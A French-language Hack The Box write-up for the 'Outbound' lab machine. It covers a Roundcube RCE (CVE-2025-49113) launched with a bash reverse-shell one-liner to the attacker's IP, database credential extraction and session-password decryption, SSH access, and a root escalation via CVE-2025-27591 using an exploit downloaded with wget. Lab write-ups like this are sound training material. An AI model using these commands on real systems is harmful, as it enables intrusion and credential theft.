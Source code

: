 +++
draft = false
date = '2025-10-07T15:00:00+02:00'
title = "Hack The Box Outbound"
description = "Write Up du challenge OutBound"
authors = "Wanako"
tags = ["Hack The Box"]
categories = ["Machine", "Hack The Box", "CVE"]
+++

# Writeup - Outbound

## Reconnaissance

### Scan Nmap
```bash
nmap -A 10.10.11.77
```

**Résultats :**
- **Port 22/tcp** : SSH (OpenSSH 9.6p1)
- **Port 80/tcp** : HTTP (nginx 1.24.0) → Redirection vers `http://mail.outbound.htb/`

On ajoute le domaine au `/etc/hosts` :
```bash
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

---

## Exploitation initiale

### CVE-2025-49113 (Roundcube Webmail)

Le site web héberge **Roundcube**, vulnérable à la **CVE-2025-49113** (RCE via file upload).

**Exploitation :**
```bash
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c 'nohup bash -i >& /dev/tcp/10.10.14.115/9099 0>&1 &'"
```

On obtient un **shell en tant que `www-data`**.

---

## Énumération post-exploitation

### Configuration Roundcube

Dans `/var/www/html/roundcube/config/config.inc.php` :
```php
mysql://roundcube:RCDBPass2025@localhost/roundcube
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

### Extraction des données MySQL

**Connexion à la base de données :**
```bash
mysql -u roundcube -pRCDBPass2025 roundcube
```

**Tables utiles :**
```sql
SELECT * FROM users;
```

| user_id | username | created             |
|---------|----------|---------------------|
| 1       | jacob    | 2025-06-07 13:55:18 |
| 2       | mel      | 2025-06-08 12:04:51 |
| 3       | tyler    | 2025-06-08 13:28:55 |

**Sessions actives :**
```sql
SELECT * FROM session WHERE sess_id = '6a5ktqih5uca6lj8vrmgh9v0oh';
```

Dans la session de **jacob**, on trouve le mot de passe chiffré :
```
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

### Déchiffrement du mot de passe

Roundcube utilise `des_key` pour chiffrer les mots de passe en session. On peut déchiffrer avec :
```php
<?php
$des_key = 'rcmail-!24ByteDESkey*Str';
$encrypted = 'L7Rv00A8TuwJAr67kITxxcSgnIk25Am/';
echo rcube_utils::decrypt_passwd($encrypted, $des_key);
?>
```

**Mot de passe jacob :** `595mO8DmwGeD`

---

## Accès SSH en tant que jacob

```bash
ssh jacob@10.10.11.77
Password: 595mO8DmwGeD
```

### Enumération des mails de jacob

Dans ses mails, on trouve un **nouveau mot de passe** :
```
gY4Wr3a1evp4
```

---

## Escalade de privilèges

### Service vulnérable : CVE-2025-27591

Jacob utilise un service local vulnérable à **CVE-2025-27591** (privilege escalation).

**Exploitation :**

**Sur la machine attaquante :**
```bash
git clone https://github.com/BridgerAlderson/CVE-2025-27591-PoC.git
cd CVE-2025-27591-PoC
python3 -m http.server 80
```

**Sur la machine cible (en tant que jacob) :**
```bash
wget http://10.10.14.115/exploit.py
python3 exploit.py
```

L'exploit permet d'obtenir un **shell root**.

---

## Flags

**User flag :**
```bash
cat /home/jacob/user.txt
```

**Root flag :**
```bash
cat /root/root.txt
```

---

## Résumé

1. **Scan Nmap** → Roundcube sur port 80
2. **CVE-2025-49113** → RCE via upload → shell `www-data`
3. **Extraction MySQL** → Récupération des sessions et mots de passe chiffrés
4. **Déchiffrement** → Mot de passe jacob via `des_key`
5. **SSH jacob** → Énumération mails → nouveau mot de passe
6. **CVE-2025-27591** → Escalade de privilèges → root

---

**Machine pwned! 🚩**
